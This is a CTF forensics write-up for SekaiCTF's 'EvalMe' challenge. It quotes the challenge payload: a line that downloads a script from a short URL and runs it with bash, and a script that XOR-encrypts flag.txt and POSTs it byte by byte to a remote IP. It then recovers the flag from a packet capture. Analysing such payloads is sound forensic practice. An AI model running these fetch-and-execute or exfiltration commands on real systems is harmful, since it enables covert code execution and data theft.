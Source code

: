 # WriteUp for EvalMe - Forensics - SekaiCTF
### CTF Problem Creator: Guesslemonger

### Challenge Description
I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate? It came attached with a `capture.pcapng`.

### Initial Connection Solve
Connecting to the `chals.sekai.team` server required the user to solve 100 simple math problems within a given time. This was solved using the `evalMe.py` script.

Following its solve, there was a curl command given at the end:
```python
b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r#1 + 2
```

### Extract.sh
Downloading the extract.sh to our VM (`curl -sL https://shorturl.at/fgjvU -o extract.sh`), I get the following script:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'

# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }

XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

### XOR Encryption
This script reads the content of `flag.txt`, encrypts it using XOR encryption with a predefined key, and then sends the encrypted data, byte by byte, to a remote server using cURL. The server URL and endpoint seem to be `http://35.196.65.151:30899/`, and the data is likely being sent in a structured JSON format as part of the POST request.

### pcap Analysis
This is where the pcap file comes in. It contains the data sent via that POST command. So, filtering by: `ip.dst ==35.196.65.151 && http.request.method == POST`, I get 51 packets that contain the bytes that were sent as seen below:


![Alt text](https://github.com/triciadang/CTF/blob/main/SekaiCTF/evalMe/evalMeScreenshot.jpg)

I exported all of the bytes into a txt file using Wireshark.

### Decryption of the Data
I then created a script that reversed the encryption for each byte:

```
#!/bin/bash
KEY='s3k@1_v3ry_w0w'

Asc() {
    printf '%d' "'$1"
}

XORDecrypt() {
    local key="$1" DataIn="$2"
    local bytes=($DataIn)

    for (( i = 0; i < ${#bytes[@]}; i++ )); do
        val3=$(printf '%d' "0x${bytes[i]}")

        # Adjusted key indexing for both uppercase and lowercase characters
        val2=$( Asc "${key:$(( i % ${#key} )):1}" )

        val1=$(( val3 ^ val2 ))

        DataOut+=$(printf '\\x%02x' "$val1")
    done

    echo -ne "$DataOut"
}

EncryptedData=$(<encrypted.txt)
DecryptedData=$(XORDecrypt "$KEY" "$EncryptedData")

echo -ne "$DecryptedData"
```
Running it against the exported bytes, I retrieved the flag: `SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}`
